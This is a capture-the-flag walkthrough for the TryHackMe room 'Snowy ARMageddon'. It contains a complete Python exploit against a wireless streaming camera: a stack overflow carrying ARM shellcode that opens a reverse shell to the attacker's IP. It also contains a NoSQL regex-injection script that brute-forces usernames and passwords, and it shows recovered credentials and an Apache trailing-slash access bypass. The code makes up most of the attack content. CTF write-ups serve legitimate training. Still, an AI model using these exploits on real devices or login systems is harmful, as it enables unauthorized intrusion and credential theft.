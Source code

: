 # Snowy ARMageddon

This SideQuest can be found here: https://tryhackme.com/room/armageddon2r

## 1. What is the content of the first flag?

Starting of with a port scan on the provided IP address, we find port 22, 23, 8080 and 50628 which is definitely not a commonly found port.  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/1f52fcc7-0caf-4d1f-8084-c83dc51c7a7e)

Looking at it in the browser, we can see it's a Wireless Streaming Camera:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/161ebb0a-0906-4b5e-bfc7-a107759ae86c)

A quick google search for any exploits for this camera, we can see an ARM challenge which seems to match up with the ARM that's capitalized in the challenge description. So we must be on the right track.

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/3b2f41f9-42e8-43c1-9e30-1bbefb722891)

The description and details of the challenge can be found [here](https://no-sec.net/arm-x-challenge-breaking-the-webs/). Within this blog post we find that the camera is vulnerable to a Stack Overflow and we already have a python script for it. The challenging part was getting my attacker IP converted to ARM shellcode properly. I was not able to do that but I collaborated with a talented hacker by the name [william-barros-costa](https://github.com/william-barros-costa) who was able to manually convert my VPN IP to the shellcode needed for the foothold.

```python
from pwn import *
import sys
   
HOST = str(sys.argv[1])
PORT = 50628
LPORT = 4444
 
BADCHARS = b'\x00\x09\x0a\x0d\x20\x23\x26'
BAD = False
LIBC_OFFSET = 0x40021000
LIBGCC_OFFSET = 0x4000e000
RETURN = LIBGCC_OFFSET + 0x2f88    # libgcc_s.so.1: bx sp   0x40010f88
SLEEP = LIBC_OFFSET + 0xdc54    # sleep@libc 0x4002ec54
 
pc = cyclic_find(0x63616176)  # 284
r4 = cyclic_find(0x6361616f)  # 256
r5 = cyclic_find(0x63616170)  # 260
r6 = cyclic_find(0x63616171)  # 264
r7 = cyclic_find(0x63616172)  # 268
r8 = cyclic_find(0x63616173)  # 272
r9 = cyclic_find(0x63616174)  # 276
r10 = cyclic_find(0x63616175) # 280
sp = cyclic_find(0x63616177)  # 288
 
SC  = b'\x10\xd0\x4d\xe2'     # sub sp, 16
SC += b'\x68\x10\xa0\xe3\x01\x14\xa0\xe1\x73\x10\x81\xe2\x01\x14\xa0\xe1\x2f\x10\x81\xe2\x04\x10\x2d\xe5\x6e\x10\xa0\xe3\x01\x14\xa0\xe1\x69\x10\x81\xe2\x01\x14\xa0\xe1\x62\x10\x81\xe2\x01\x14\xa0\xe1\x2f\x10\x81\xe2\x04\x10\x2d\xe5'      # /bin/sh
SC += b'\x01\x10\x21\xe0\xce\x10\x81\xe2\x01\x14\xa0\xe1\x5f\x10\x81\xe2\x01\x14\xa0\xe1\x06\x10\x81\xe2\x81\x13\xa0\xe1\x05\x10\x81\xe2\x81\x10\xa0\xe1\x04\x10\x2d\xe5'  #10.6.95.206
SC += b'\x5c\x10\xa0\xe3\x01\x14\xa0\xe1\x11\x10\x81\xe2\x01\x18\xa0\xe1\x02\x10\x81\xe2\x04\x10\x2d\xe5'   # 4444; AF_INET, SOCK_STREAM
SC += b'\xef\x30\xa0\xe3\x03\x3c\xa0\xe1\x04\x30\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\x0b\x10\x81\xe2\x04\x10\x2d\xe5\xe1\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x01\x14\xa0\xe1\x0c\x10\x81\xe2\x01\x10\x81\xe2\x04\x10\x2d\xe5\xe9\x10\xa0\xe3\x01\x14\xa0\xe1\x2d\x10\x81\xe2\x01\x18\xa0\xe1\x05\x10\x81\xe2\x04\x10\x2d\xe5\xe0\x10\xa0\xe3\x01\x14\xa0\xe1\x22\x10\x81\xe2\x01\x14\xa0\xe1\x1f\x10\x81\xe2\x01\x10\x81\xe2\x01\x14\xa0\xe1\x02\x10\x81\xe2\x04\x10\x2d\xe5\xe2\x10\xa0\xe3\x01\x14\xa0\xe1\x8f\x10\x81\xe2\x01\x18\xa0\xe1\x18\x10\x81\xe2\x04\x10\x2d\xe5'   # execve()
SC += b'\x04\x30\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x01\x14\xa0\xe1\x02\x10\x81\xe2\x04\x10\x2d\xe5\xe1\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x18\xa0\xe1\x0b\x10\x81\xe2\x04\x10\x2d\xe5'   # dup2(STDERR)
SC += b'\x04\x30\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x01\x14\xa0\xe1\x01\x10\x81\xe2\x04\x10\x2d\xe5\xe1\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x18\xa0\xe1\x0b\x10\x81\xe2\x04\x10\x2d\xe5'   # dub2(STDOUT)
SC += b'\x04\x30\x2d\xe5\xe2\x10\xa0\xe3\x01\x14\xa0\xe1\x87\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\x0e\x10\x81\xe2\x04\x10\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\x31\x10\x81\xe2\x04\x10\x2d\xe5\xe0\x10\xa0\xe3\x01\x14\xa0\xe1\x21\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x01\x14\xa0\xe1\x01\x10\x81\xe2\x04\x10\x2d\xe5\xe1\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x18\xa0\xe1\x0b\x10\x81\xe2\x04\x10\x2d\xe5'   # dup2(STDIN)
SC += b'\x04\x30\x2d\xe5\xe2\x10\xa0\xe3\x01\x14\xa0\xe1\x87\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\x1c\x10\x81\xe2\x04\x10\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\xff\x10\x81\xe2\x04\x10\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x1f\x10\x81\xe2\x01\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x04\x10\x2d\xe5\xe2\x10\xa0\xe3\x01\x14\xa0\xe1\x8f\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x01\x14\xa0\xe1\x50\x10\x81\xe2\x04\x10\x2d\xe5\xe1\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\xb0\x10\x81\xe2\x01\x14\xa0\xe1\x04\x10\x2d\xe5'   # connect()
SC += b'\x04\x30\x2d\xe5\xe2\x10\xa0\xe3\x01\x14\xa0\xe1\x87\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\x1a\x10\x81\xe2\x04\x10\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\xff\x10\x81\xe2\x04\x10\x2d\xe5\xe0\x10\xa0\xe3\x01\x14\xa0\xe1\x22\x10\x81\xe2\x01\x14\xa0\xe1\x1f\x10\x81\xe2\x01\x10\x81\xe2\x01\x14\xa0\xe1\x02\x10\x81\xe2\x04\x10\x2d\xe5\xe2\x10\xa0\xe3\x01\x14\xa0\xe1\x81\x10\x81\xe2\x01\x18\xa0\xe1\x01\x10\x81\xe2\x04\x10\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x01\x14\xa0\xe1\x01\x10\x81\xe2\x04\x10\x2d\xe5'   # socket()
#SC += b'\x01\x0c\xa0\xe3'   # mov r0, #256  ; sleep for 256s to avoid cache coherency issues
#SC += b'\x3a\xff\x2f\xe1'   # blx r10       ; r10 contains address of sleep@libc
SC += b'\x1d\xff\x2f\xe1'   # bx sp
 
info('Shellcode length: %d' % len(SC))
for i in range(len(SC)):
  if SC[i] in BADCHARS:
    print('BAD CHARACTER in position: %d!')
    BAD = True
if BAD:
  exit(1)
 
buffer  = b'A' * r10
buffer += p32(SLEEP)    # overwrite r10 with address of sleep()
buffer += p32(RETURN)   # bx sp
buffer += SC
 
s = remote(HOST, 50628)
s.send(b'GET /en/login.asp?basic=' + buffer + b' HTTP/1.0\r\n\r\n')
 
nc = listen(LPORT)
nc.wait_for_connection()
nc.interactive()
s.close()
nc.close()
```
Once inside the machine, we start ennumerating (a lot) and soon-ish find a password in /var/etc/umconfig.txt:  
![image](https://github.com/LazyTitan33/myCreations/assets/80063008/74c54aef-e394-45e7-a3fe-b3517e1de252)

Y3tiStarCur!ouspassword=admin

We can use these creds to login the camera dashboard and see the first flag:  
![image](https://github.com/LazyTitan33/myCreations/assets/80063008/1bfd121c-5fff-431b-8ab9-dffc5f6bdd15)

`THM{YETI_ON_SCREEN_ELUSIVE_CAMERA_STAR}`

## 2. What is the content of the yetikey2.txt file?

Going back on port 8080, we find a seemingly unaccesable page:  
![image](https://github.com/LazyTitan33/myCreations/assets/80063008/c4f867a8-4339-4b87-9337-dfc3ffb3880e)

However, if we use `ffuf` to fuzz for files with any of the raft wordlists from seclists, but also add another slash at the end, we find that the login page is accessible:  
![image](https://github.com/LazyTitan33/myCreations/assets/80063008/00ca1ea3-41c6-4417-9c45-54cb819365bc)

Multiple different attempts were made to bypass the login and then we noticed this error which confirms a NoSQL database being used in the background:  
![image](https://github.com/LazyTitan33/myCreations/assets/80063008/54053351-d2cb-4d46-9549-0b93131a564e)

I grabbed [this](https://book.hacktricks.xyz/pentesting-web/nosql-injection#brute-force-login-usernames-and-passwords-from-post-login) script from hacktricks and modified it a bit to start enumerating. As you can see from the commented code, I enumerated users first based on the number of characters in the password.

```python
import requests
import string

url = " http://10.10.29.186:8080/login.php/"
proxy = {"http":"http://127.0.0.1:8080"}
headers = {'Content-type': 'application/x-www-form-urlencoded'}
possible_chars = list(string.ascii_letters) + list(string.digits) + ["\\"+c for c in string.punctuation+string.whitespace ]
def get_password(username):
    print("Extracting password of "+username)
    params = {"username":username, "password[$regex]":""}
    password = "^"
    while True:
        for c in possible_chars:
            params["password[$regex]"] = password + c + ".*"
            pr = requests.post(url, data=params, headers=headers, proxies=proxy, verify=False, allow_redirects=False)
            if 'Invalid' not in pr.text:
                password += c
                break
        if c == possible_chars[-1]:
            print("Found password "+password[1:].replace("\\", "")+" for username "+username)
            return password[1:].replace("\\", "")

def get_usernames():
    # usernames = ['Blizzardson','Frostbite', 'Grinchenko', 'Iciclevich', 'Northpolinsky','Scroogestein', 'Tinselova'] #users found with exactly 20 chars in the password (.{20})
    # usernames = ['Frosteau'] #users found with less than 20 chars in the password (^.{1,19}$)
    usernames = []
    params = {"username[$regex]":"", "password[$regex]":"^.{21,}$"} #regex to search users with more than 20 chars in the password
    for c in possible_chars:
        username = "^" + c
        params["username[$regex]"] = username + ".*"
        pr = requests.post(url, data=params, headers=headers, proxies=proxy, verify=False, allow_redirects=False)
        if 'Invalid' not in pr.text:
            print("Found username starting with "+c)
            while True:
                for c2 in possible_chars:
                    params["username[$regex]"] = username + c2 + ".*"
                    if int(requests.post(url, data=params, headers=headers, proxies=proxy, verify=False, allow_redirects=False).status_code) == 302:
                        username += c2
                        print(username)
                        break

                if c2 == possible_chars[-1]:
                    print("Found username: "+username[1:])
                    usernames.append(username[1:])
                    break
    return usernames


for u in get_usernames():
    get_password(u)
```
After finding the usernames, the script automatically starts abusing the NoSQL injection to also get their passwords. The only one out of the ordinary seems to be the user `Frosteau` which has a password that's lower than 20 characters. Everyone else has the password set at 20 characters.

`Frosteau:HoHoHacked`

Using these credentials to login, we get redirects to the root website which again, tells us that we are forbidden. However, we need to keep in mind the slash trick at the end, which is a misconfiguration in the apache server. Adding the slash at the end of /index.php/ we get directed to the dashboard which has the content of the yetikey2.txt:  
![image](https://github.com/LazyTitan33/myCreations/assets/80063008/3779b5f7-6659-4ff0-bccb-e5daaa66c6d7)

`2-K@bWJ5oHFCR8o%whAvK5qw8Sp$5qf!nCqGM3ksaK`
